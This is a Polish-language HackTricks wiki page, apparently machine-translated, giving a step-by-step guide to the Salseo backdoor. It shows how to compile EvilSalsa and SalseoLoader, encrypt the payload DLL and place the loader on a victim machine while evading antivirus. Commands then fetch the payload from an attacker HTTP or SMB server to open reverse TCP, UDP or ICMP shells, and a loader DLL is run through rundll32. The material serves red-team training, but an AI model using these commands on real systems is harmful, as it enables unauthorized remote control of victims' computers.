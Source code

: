 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Kompilacja binarek

Pobierz kod źródłowy z githuba i skompiluj **EvilSalsa** oraz **SalseoLoader**. Będziesz potrzebować zainstalowanego **Visual Studio**, aby skompilować kod.

Skompiluj te projekty dla architektury komputera z systemem Windows, na którym zamierzasz ich używać (jeśli Windows obsługuje x64, skompiluj je dla tej architektury).

Możesz **wybrać architekturę** w Visual Studio w **lewej zakładce "Build"** w **"Platform Target".**

(\*\*Jeśli nie możesz znaleźć tych opcji, kliknij w **"Project Tab"** a następnie w **"\<Nazwa Projektu> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Następnie zbuduj oba projekty (Build -> Build Solution) (W logach pojawi się ścieżka do pliku wykonywalnego):

![](<../.gitbook/assets/image (381).png>)

## Przygotowanie Backdoora

Przede wszystkim będziesz musiał zakodować **EvilSalsa.dll.** Aby to zrobić, możesz użyć skryptu python **encrypterassembly.py** lub możesz skompilować projekt **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, teraz masz wszystko, co potrzebne do wykonania całej operacji Salseo: **zakodowany EvilDalsa.dll** i **plik binarny SalseoLoader.**

**Prześlij plik binarny SalseoLoader.exe na maszynę. Nie powinny być wykrywane przez żadne AV...**

## **Wykonaj backdoora**

### **Uzyskanie odwrotnej powłoki TCP (pobieranie zakodowanego dll przez HTTP)**

Pamiętaj, aby uruchomić nc jako nasłuchującego powłokę odwrotną oraz serwer HTTP do serwowania zakodowanego evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnej powłoki UDP (pobieranie zakodowanej dll przez SMB)**

Pamiętaj, aby uruchomić nc jako nasłuchującego powłokę odwrotną oraz serwer SMB, aby udostępnić zakodowaną evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnego powłoki ICMP (zakodowana dll już wewnątrz ofiary)**

**Tym razem potrzebujesz specjalnego narzędzia w kliencie, aby odebrać odwrotną powłokę. Pobierz:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Wyłącz odpowiedzi ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Wykonaj klienta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Wewnątrz ofiary, wykonajmy rzecz salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilowanie SalseoLoader jako DLL eksportującego funkcję główną

Otwórz projekt SalseoLoader w Visual Studio.

### Dodaj przed funkcją główną: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Zainstaluj DllExport dla tego projektu

#### **Narzędzia** --> **Menedżer pakietów NuGet** --> **Zarządzaj pakietami NuGet dla rozwiązania...**

![](<../.gitbook/assets/image (881).png>)

#### **Szukaj pakietu DllExport (używając zakładki Przeglądaj), a następnie naciśnij Zainstaluj (i zaakceptuj okno popup)**

![](<../.gitbook/assets/image (100).png>)

W folderze projektu pojawiły się pliki: **DllExport.bat** i **DllExport\_Configure.bat**

### **U**ninstaluj DllExport

Naciśnij **Odinstaluj** (tak, to dziwne, ale uwierz mi, to konieczne)

![](<../.gitbook/assets/image (97).png>)

### **Zamknij Visual Studio i uruchom DllExport\_configure**

Po prostu **zamknij** Visual Studio

Następnie przejdź do swojego **folderu SalseoLoader** i **uruchom DllExport\_Configure.bat**

Wybierz **x64** (jeśli zamierzasz używać go w środowisku x64, tak było w moim przypadku), wybierz **System.Runtime.InteropServices** (w **Namespace for DllExport**) i naciśnij **Zastosuj**

![](<../.gitbook/assets/image (882).png>)

### **Otwórz projekt ponownie w Visual Studio**

**\[DllExport]** nie powinno być już oznaczone jako błąd

![](<../.gitbook/assets/image (670).png>)

### Zbuduj rozwiązanie

Wybierz **Typ wyjścia = Biblioteka klas** (Projekt --> Właściwości SalseoLoader --> Aplikacja --> Typ wyjścia = Biblioteka klas)

![](<../.gitbook/assets/image (847).png>)

Wybierz **platformę x64** (Projekt --> Właściwości SalseoLoader --> Budowanie --> Cel platformy = x64)

![](<../.gitbook/assets/image (285).png>)

Aby **zbudować** rozwiązanie: Buduj --> Zbuduj rozwiązanie (W konsoli wyjściowej pojawi się ścieżka do nowego DLL)

### Przetestuj wygenerowane Dll

Skopiuj i wklej Dll tam, gdzie chcesz go przetestować.

Wykonaj:
```
rundll32.exe SalseoLoader.dll,main
```
Jeśli nie pojawi się błąd, prawdopodobnie masz funkcjonalny DLL!!

## Uzyskaj powłokę za pomocą DLL

Nie zapomnij użyć **serwera** **HTTP** i ustawić **nasłuchiwacza** **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
